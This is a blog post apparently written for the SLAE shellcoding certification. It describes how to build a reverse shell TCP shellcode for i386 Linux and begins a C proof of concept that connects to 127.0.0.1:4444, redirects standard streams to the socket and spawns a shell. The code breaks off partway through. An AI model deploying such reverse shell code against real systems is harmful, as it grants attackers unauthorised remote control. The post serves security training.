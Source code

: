 ```yaml
---
title: "Assignment #2: Create a reverse shell shellcode"
tags: [slae, shellcode, reverse shellcode, assembler, i386]
comments: true
share: true
order: 2
---
```


The second assignment for SLAE certification is to create a standard reverse shell TCP
shellcode in assembler language. The shellcode will reverse connect to a specific IP address on a given port spawning a shell on the waiting process.

The IP address and the port number to connect should be easily configurable.

The assignment was written on an Ubuntu Linux 18.04, with a Linux kernel 4.15
version.

## The POC

The PoC for the reverse shell shellcode is straightforwardly easy. The C code will:

* opens a socket
* set destination IP and destination port
* connects the socket to the designated endpoint 

If the connect() call is successfull, then standard output, standard input and
standard error on the socket descriptor are redirected on the connected socket
and then spawn the shell using execve() system call.

As in the first assignement, when execve() it has been executed, the code in
the process text segment is substituted with the shell one, so there is no need
for an exit() call at the end of the PoC.

{% highlight c %}
/*
 * tcp_reverse_shellcode.c: connects to a given IP address and TCP port and
 * spawn a shell when connection succeeded.
 *
 * BSD 2-Clause License
 *
 * Copyright (c) 2018, Paolo Perego
 * All rights reserved.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>
#include <unistd.h>

// for socket() and connect() calls
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>


#define IP 	"127.0.0.1"
#define DPORT	4444

int main(int argc, char **argv) {
	int sfd, ret;
	struct sockaddr_in peer;


	memset(&peer, 0, sizeof(struct sockaddr));

	peer.sin_family 	= AF_INET;
